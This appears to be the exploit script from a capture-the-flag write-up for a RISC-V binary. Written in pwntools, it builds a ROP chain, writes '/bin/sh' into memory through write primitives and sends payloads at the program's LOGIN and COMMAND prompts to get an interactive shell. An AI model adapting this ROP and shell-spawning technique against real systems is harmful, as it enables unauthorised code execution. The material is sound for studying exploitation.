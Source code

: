```python
    flag_fd = 5
    p_addr = 0x8a2b8
    pp_addr = 0x8a488
    writable_addr = 0x8a510
    gadget = 0x2c3be

    ecall_num = p64(0xdd) # execve 221
    third_arg = p64(0)
    ecall = p64(0x1d8ac) # ecall; ret gadget
    first_arg = p64(writable_addr+0x10) # ptr to "/bin/sh"
    second_arg = p64(0)

    chain = b"A" * 8
    chain += ecall_num + third_arg
    chain += ecall + first_arg
    chain += second_arg

    sla(io, b"LOGIN: ", chain)

    #data = b"/app/flag.txt"

    data = b"/bin/sh\x00\x00"

    # write /bin/sh
    write_data(io, pp_addr, p_addr, writable_addr+0xb, data)

    # set ptr back to beginning of writeable data
    write_three_bytes(io, pp_addr, p_addr, p32(writable_addr+0x10))

    #call_func(io,p_addr,writeable_addr,e.sym["openat"]) 

    # write ROP
    write_three_bytes(io, pp_addr, p_addr, p32(writable_addr))
    write_data(io, pp_addr, p_addr, writable_addr - 5, p64(0x5))
    write_three_bytes(io, pp_addr, p_addr, p32(writable_addr))

    payload = b"A"*0x10 + p64(p_addr)
    payload += p64(gadget)
    sla(io, b"COMMAND>", payload)
    sla(io, b"COMMAND>", p64(writable_addr))

    io.interactive()


if __name__=="__main__":
    file = args.BIN

    p = start(file)
    e = context.binary = ELF(file)
    #l = ELF("./libc.so.6")

    exploit(p,e)
```

## Gent's Favorite Model


